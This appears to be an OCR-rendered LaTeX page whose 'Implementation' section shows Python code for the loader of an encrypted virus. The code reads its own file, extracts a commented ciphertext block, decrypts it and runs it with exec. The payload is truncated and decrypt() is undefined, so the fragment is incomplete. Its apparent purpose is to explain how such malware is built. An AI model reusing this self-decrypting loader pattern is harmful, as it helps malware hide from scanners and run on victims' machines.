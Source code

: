 \documentclass[a4paper,11pt]{article}
\begin{document}
\section{Implementation}

\begin{verbatim} 
# Open the virus itself
this = open(__main__.__file__, 'r')
# Set copy variable to False
copy = False
# Initialize an empty payload
cipher_payload = ''

# Search for the encrypted main body of the virus and copy it into cipher_payload
for line in this:
   if line.strip() == '# Start payload':
      copy = True
   elif line.strip() == '# End payload':
      copy = False
   elif copy:
      cipher_payload = cipher_payload + line
# Decrypt the main body of the virus and execute it.
e = decrypt(cipher_payload[1:])
exec e

# Encrypted main body of the virus
# Start payload
#8eoDXnZwwdY/TUaf5IQOo5+tbvE2zllu4t0m...
# End payload
\end{verbatim}
\end{document}
